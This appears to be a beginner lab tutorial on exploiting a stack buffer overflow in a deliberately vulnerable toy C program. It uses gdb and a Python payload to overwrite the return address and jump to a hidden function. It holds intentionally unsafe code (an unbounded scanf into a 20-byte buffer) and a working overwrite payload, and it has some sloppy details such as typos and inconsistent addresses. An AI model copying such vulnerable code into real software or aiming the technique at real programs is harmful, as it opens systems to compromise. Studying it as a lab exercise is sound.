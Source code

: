 # Exploiting a vulnerable C file using buffer overflow.

1. Firstly, create two files. One named vuln.c (The vulnerable C file) and payload (a short program which will aid us in exploiting the vulnerable C file).
```
    touch payload
    touch vuln.c
```

2. Next, we type in a few codes inside the C file using the 'sudo nano' command.
```
    sudo nano vuln.c
```
  C code:  
```
    #include <stdio.h>

    void secretFunction(){
	    printf("You have entered a restricted area\n");
	    printf("Pwned!\n");
    }

    void echo(){
	    char buffer[20];
	    printf("Enter some texts :\n");
	    scanf("%s", buffer);
	    printf("You entered %s\n", buffer);
    }

    int main(){
	    echo();
	    return 0;
    }
```
3. Exit and save the file using "Control + X". Then, we run the command to see if our C file is working using the './' command.
```
    gcc -o vuln -fno-stack-protector -m32 vuln.c
    ./vuln
```

4. After having no problems with running our program, we should be able to debug it by using the 'gdb' command, which will bring us into the debugging mode. Once in the debugging mode, we should start by disassembling the echo file. After that, look for the memory that has 'scanf'. Break the memory before and after it using the "break *(the desired memory, which looks like 0x03239827)
```
    gdb vuln
    (gdb) disassemble echo
    (gdb) break *0x080484c9
    (gdb) break *0x08048d5
```
 Which will look something like this:
 Disassemble echo:
 ![Imgur](https://i.imgur.com/8digEtD.png)
 Break:
![Imgur](https://i.imgur.com/l3XmQ2g.png)

 
5. After that, we should run the program in debugging mode to test out the breaking points and also do some tweaking to figure out where the return address by inserting any variable which is easy for us to spot after the change is made, which in this case is A, represented by 41.

```
    (gdb) run
    (gdb) x/20x $esp
    (gdb) c
    (gdb) AAAAAAAA
    (gdb) x/20x $esp 
```
Output:
![Imgur](https://i.imgur.com/pDElRDo.png)

Exit the debugging mode once finished.

6. Next, we need to input some test code into the payload to use before actually deploying a real code. (Optional)
```
    python -c 'print "A"*28 + "B"*4' > payload
```
 
7. Enter the debugging mode again using 'fg'. This time, we are going to run the C file again, but instead of having to manually enter 'A' 8 times, we let the payload do it for us with the codes that we have set.
```
    (dbg) run < payload
    (dbg) x/20x $esp
    (dbg) c
    (dbg) x/20x $esp
```
Output:
![Imgur](https://i.imgur.com/jfoONjG.png)

8. Next, we disassemble the 'secretFunction' in order to get the memory which we are going to use in the real payload file. This will help us tell the C file to run the 'secretFunction' function that we previously don't have access to. Take note of the first line of memory because that is what we need to call it.
```
(dbg) disassemble secretFunction
```
![Imgur](https://i.imgur.com/VXpw4pW.png)
9. After we copy the memory address, exit the debugging mode again. This time we code the payload file to tell the C file to run the 'secretFunction'. In order to do that, we must first print 32 'A' followed by the memory address from the first line of 'secretFuntion'. Use '\x' for every 2 bit of the memory address. Then, we test the software out and it should give us 32 'A' and two diamonds.
```
    python -c 'print "A"*32 + "\x90\x84\x04\x08"' > payload
    cat payloadd
```

10. Finally, we go back to the debugging mode. We run the file with payload again and it should give us the 'secretFunction'. Once all that is done, exit the debugging mode again and run the file outside of the debugging mode. 
```
    (dbg) run < payload
    (dbg) x/20x $esp
    (dbg) c
    (dbg) x/20x $esp
    (dbg) c
    (dbg) ^Z
    ./vuln < payload
```
Output:
![Imgur](https://i.imgur.com/UAwSDrV.png)
    
